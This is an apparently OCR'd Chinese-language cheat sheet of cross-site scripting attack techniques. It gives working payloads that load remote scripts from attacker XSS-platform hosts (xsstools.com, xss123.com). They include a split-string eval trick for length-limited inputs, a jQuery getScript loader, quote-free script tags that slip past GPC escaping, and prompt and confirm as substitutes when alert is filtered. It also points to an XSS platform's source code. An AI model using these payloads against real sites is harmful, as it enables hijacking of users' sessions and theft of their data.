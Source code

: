 ```
这种一般是输入的字符有限制的时候使用
<script>z='document.'</script>
<script>z=z+'write("'</script>
<script>z=z+'<script'</script>
<script>z=z+' src=ht'</script>
<script>z=z+'tp://www.'</script>
<script>z=z+'xsstools'</script>
<script>z=z+'.com/a'</script>
<script>z=z+'mER></sc'</script>
<script>z=z+'ript>")'</script>
<script>eval(z)</script>
有的情况要用/**/注释不需要的代码
```

**jquery 加载**

```
<script>$.getScript("//www.xsstools.com/amER");</script>
```

### XSS平台利用

蓝莲花战队的，已及 下载源码 https://github.com/78778443/xssplatform 解压当前目录 填写信息即可安装 等等

### XSS 绕过

绕过：https://xz.aliyun.com/t/4067

#### gpc 过滤字符

如果 gpc 开启的时候，**特殊字符会被加上斜杠**即，`'`变成`\'` xss 攻击代码不要带用单引号或双引号。绕过 gpc 在 php 高 版本 gpc 默认是没有的，但是开发程序员会使用 addcslashes()对特殊字符进行转义

```
<script src='http://www.xss123.com/JGdbsl?1623638390'></script>  这个是执行不了的
<script src=http://www.xss123.com/JGdbsl?1623638390></script>    没有单引号可执行
```

#### 过滤 alert

当页面过滤 alert 这个函数时，因为这个函数会弹窗，不仅很多程序会对他进行过滤，而且很多waf 都会对其进行拦截。所以不存在 alert 即可

```
<script>prompt(/xss/);</script>
<script>confirm(1);</script>
<script src=http://www.xss123.com/eciAKj?1623635663></script>
```

#### 过滤标签

在程序里如果使用 html 实体过滤 在 php 会使用 htmlspecialchars() 对输入的字符进行实体化实体化之后的字符不会在 html 执行。

把预定义的字符 "<" （小于）和 ">" （大于）转换为 HTML 实体，构造xss 恶意代码大多数都必须使用<或者>，这两个字符被实体化后在 html 里就不能执行了。预定义的字符是

```
& (和号)成为 &amp
" (双引号)成为 &quot
’ (单引号)成为&#039
< (小于)成为 &lt
>(大于)成为 &gt
```
